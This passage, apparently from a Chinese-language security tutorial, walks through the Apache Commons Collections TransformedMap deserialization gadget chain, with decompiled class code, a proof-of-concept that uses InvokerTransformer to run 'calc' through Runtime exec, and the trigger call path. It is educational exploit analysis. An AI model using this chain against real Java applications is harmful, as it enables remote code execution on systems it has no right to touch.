 ```java
            return new AbstractInputCheckedMapDecorator.MapEntry(entry, this.parent);
        }
    }
    
        //定义EntrySet方法，最终实现了Set接口
    static class EntrySet extends AbstractSetDecorator {
        private final AbstractInputCheckedMapDecorator parent;
        //构造方法，在上面entrySet方法中调用到这里
        protected EntrySet(Set set, AbstractInputCheckedMapDecorator parent) {
            super(set);
            this.parent = parent;
        }
        
                //重写iterator方法，生成迭代器时会调用
        public Iterator iterator() {
            //调用AbstractInputCheckedMapDecorator中定义的EntrySetIterator类构造方法。返回EntrySetIterator对象
            //this.collection为构造函数中传入的set
            return new AbstractInputCheckedMapDecorator.EntrySetIterator(this.collection.iterator(), this.parent);
        }

    }
}
```

根据构造代码总体分析一下流程

```java
InvokerTransformer invokerTransformer =
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
Map innerMap = new HashMap() ;
innerMap.put("name", "Runtime.getRuntime()") ;
Map outerMap = TransformedMap.decorate(innerMap,null,invokerTransformer) ;

Map.Entry elEntry = (Map.Entry) outerMap.entrySet().iterator().next() ;
elEntry.setValue(Runtime.getRuntime()) ;
```

这里的直接传入invokerTransformer并不是准确的，因为setValue必须传入Runtime.getRuntime()才能成功触发计算器，我们这里先分析漏洞触发，构造Transformer之后在分析。

来看触发链:

```
TransformedMap.decorate()
    ->父类AbstractInputCheckedMapDecorator.entrySet()
        ->内部类EntrySet.EntrySet(构造函数) ->内部类EntrySet.iterator()
            ->内部类EntrySetIterator.EntrySetIterator(构造函数)->内部类EntrySetIterator.next()
                ->内部类MapEntry.MapEntry(构造函数)->内部类MapEntry.setValue()
->TransformedMap.checkSetValue()
->InvokerTransformer.transform()触发漏洞
```

### **Transformer反射链构造**
